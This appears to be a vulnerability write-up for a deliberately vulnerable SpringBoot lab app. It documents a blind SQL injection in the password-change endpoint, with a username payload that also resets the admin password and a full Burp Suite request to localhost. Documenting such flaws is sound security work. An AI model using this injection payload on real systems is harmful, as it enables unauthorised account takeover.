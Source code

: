 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"blind' OR username = 'admin",
        "oldPassword":"password1",
        "newPassword":"password"
    }

This example assumes the attacker's name is blind and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 93
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: JSESSIONID=D5FE8244B27DF4207B4BEC89ABE97921
    Connection: close

    {"username":"blind' OR username = 'admin","oldPassword":"password1","newPassword":"password"}

